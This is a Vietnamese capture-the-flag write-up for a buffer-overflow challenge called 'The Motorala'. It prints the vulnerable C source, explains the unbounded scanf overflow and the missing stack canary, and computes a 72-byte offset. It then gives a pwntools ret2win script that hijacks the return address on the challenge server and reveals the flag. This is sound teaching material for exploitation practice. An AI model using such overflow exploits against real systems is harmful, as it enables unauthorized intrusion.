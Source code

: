 # <center>The Motorala</center>
### Source code
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>


char* pin;

// this is the better print, because i'm cool like that ;)
void slow_type(char* msg) {
        int i = 0;
        while (1) {
                if (!msg[i])
                        return;
                putchar(msg[i]);
                usleep(5000);
                i += 1;
        }
}

void view_message() {
        int fd = open("./flag.txt", O_RDONLY);
        char* flag = calloc(0x50, sizeof(char));
        read(fd , flag, 0x50);
        close(fd);
        slow_type("\n\e[1;93mAfter several intense attempts, you successfully breach the phone's defenses.\nUnlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.\nThe once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.\n\e[0m");
        printf("\n%s\n", flag);
        exit(0);
}

void retrieve_pin(){
        FILE* f = fopen("./pin", "r");
        pin = malloc(0x40);
        memset(pin, 0, 0x40);
        fread(pin, 0x30, 0x1, f);
        fclose(f);
}

void login() {
        char attempt[0x30];
        int count = 5;

        for (int i = 0; i < 5; i++) {
                memset(attempt, 0, 0x30);
                printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
                printf("PIN: ");
                scanf("%s", attempt);
                if (!strcmp(attempt, pin)) {
                        view_message();
                }
        }
        slow_type("\n\e[1;33mAfter five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.\e[0m\n\n");
}

void banner() {

        slow_type("\e[1;33mAs you breached the final door to TACYERG's hideout, anticipation surged.\nYet, the room defied expectations – disorder reigned, furniture overturned, documents scattered, and the vault empty.\n'Yet another dead end,' you muttered under your breath.\nAs you sighed and prepared to leave, a glint caught your eye: a cellphone tucked away under unkempt sheets in a corner.\nRecognizing it as potentially the last piece of evidence you have yet to find, you picked it up with a growing sense of anticipation.\n\n\e[0m");

    puts("                         .--.");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("                         |  | ");
        puts("        _.-----------._  |  | ");
        puts("     .-'      __       `-.  | ");
        puts("   .'       .'  `.        `.| ");
        puts("  ;         :    :          ; ");
        puts("  |         `.__.'          | ");
        puts("  |   ___                   | ");
        puts("  |  (_M_) M O T O R A L A  | ");
        puts("  | .---------------------. | ");
        puts("  | |                     | | ");
        puts("  | |      \e[0;91mYOU HAVE\e[0m       | | ");
        puts("  | |  \e[0;91m1 UNREAD MESSAGE.\e[0m  | | ");
        puts("  | |                     | | ");
        puts("  | |   \e[0;91mUNLOCK TO VIEW.\e[0m   | | ");
        puts("  | |                     | | ");
        puts("  | `---------------------' | ");
        puts("  |                         | ");
        puts("  |                __       | ");
        puts("  |  ________  .-~~__~~-.   | ");
        puts("  | |___C___/ /  .'  `.  \\  | ");
        puts("  |  ______  ;   : OK :   ; | ");
        puts("  | |__A___| |  _`.__.'_  | | ");
        puts("  |  _______ ; \\< |  | >/ ; | ");
        puts("  | [_=]                                          \n");

        slow_type("\e[1;94mLocked behind a PIN, you attempt to find a way to break into the cellphone, despite only having 5 tries.\e[0m\n\n");
}


void init() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);
        retrieve_pin();
        printf("\e[2J\e[H");
}

int main() {
        init();
        banner();
        login();
}
```
- Kiểm tra các trạng thái bảo vệ được bật
![image](https://hackmd.io/_uploads/Byo9z6iMC.png)
- Tiếp theo nhìn vào code ta có thể thấy được lỗi nằm ở hàm ```scanf("%s", attempt);``` khi nhận đầu vào không được giới hạn trong khi mảng ```attempt``` được giới hạn ```0x30 byte``` nên dẫn đến lỗi ```Buffer Overflow``` và ```canary``` không được bật nên ta có thể khai thác lỗi này
- Tương tự challenge ```Baby Goods``` ta cũng tìm địa chỉ stack của ```attempt``` và của địa chỉ trả về hàm ```login()``` để tìm ofset, sau đó overwrite địa của hàm ```view_message()```
- Đặt breakpoint tại sau lệnh gọi hàm ```scanf``` và lệnh ```ret```  trong hàm ```login()``` để tìm địa chỉ của chúng trên stack
![image](https://hackmd.io/_uploads/SJJ8VTifC.png)
Địa chỉ ```attempt``` là ```0x00007fffffffdff0``` 
![image](https://hackmd.io/_uploads/SJCWBajzA.png)
Địa chỉ trả về trên stack là ```0x00007fffffffe038```
- Sau đó tìm ofset ```0x00007fffffffe038 - 0x00007fffffffdff0 = 72 byte```
- Tương tự như challenge trước ta viết script và khai thác, nhưng không thể vì đã gặp một lỗi. Theo tìm hiểu thì lỗi này vì ngay địa chỉ thực thi của stack không chia hết cho 16 nên ta cần phải pading cho địa chỉ này một địa chỉ khác và sau đó là địa chỉ trả về của hàm ```view_message()```. Ý tưởng ở đây là thêm vào địa chỉ lệnh ```ret``` của hàm bất kì để sau đó có thể nhày đến địa chỉ hàm ```view_message()```
### Script
```python
from pwn import *

view_message_address =  0x40138e

p = remote('challs.nusgreyhats.org', 30211)
#p = process('./chall')

payload = b'a'*72
payload += p64(0x401564)
payload += p64(view_message_address)

p.sendlineafter('PIN: ',payload)

p.interactive()
```
> ### *grey{g00d_w4rmup_for_p4rt_2_hehe}*
